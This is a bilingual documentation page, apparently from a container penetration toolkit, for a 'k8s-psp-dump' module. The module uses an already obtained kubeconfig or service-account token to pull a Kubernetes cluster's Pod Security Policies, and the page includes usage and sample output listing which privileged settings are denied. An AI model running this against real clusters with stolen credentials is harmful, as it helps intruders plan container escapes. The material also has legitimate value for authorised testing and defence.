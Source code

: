 # Exploit: k8s-psp-dump

对于已经获取了kubeconfig或sa账号权限，进而想要创建特殊配置的容器，但是受到了K8s Pod Security Policies的限制时；可以使用这个Exploit获取Pod Security Policies的规则信息。
  
For those who have got kubeconfig or sa account permissions and want to create a specially configured container, but are restricted by K8s Pod Security Policies; you can use this exploit to obtain Pod Security Policies rule information.

## Usage
```
./cdk run k8s-psp-dump (auto|<service-account-token-path>
```
## Example 
```bash
./cdk run k8s-psp-dump auto
2021/03/24 22:15:58 getting K8s api-server API addr.
	Find K8s api-server in ENV: https://ip:8443
2021/03/24 22:15:58 trying to dump K8s Pod Security Policies with local service-account: token
2021/03/24 22:15:58 requesting  /apis/policy/v1beta1/podsecuritypolicies
2021/03/24 22:15:58 dump Pod Security Policies success, saved in:  k8s_pod_security_policies.json
2021/03/24 22:15:58 requesting  /api/v1/namespaces/default/pods
2021/03/24 22:15:58 K8S Pod Security Policies rule list:
2021/03/24 22:15:58 rule { securityContext.hostPID: true } is not allowed.
2021/03/24 22:15:58 rule { securityContext.hostIPC: true } is not allowed.
2021/03/24 22:15:58 rule { volumes[0].hostPath.pathPrefix: \"/proc\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[1].hostPath.pathPrefix: \"/dev\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[2].hostPath.pathPrefix: \"/sys\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[3].hostPath.pathPrefix: \"/\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_ADMIN\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_PTRACE\" } is not allowed.
```

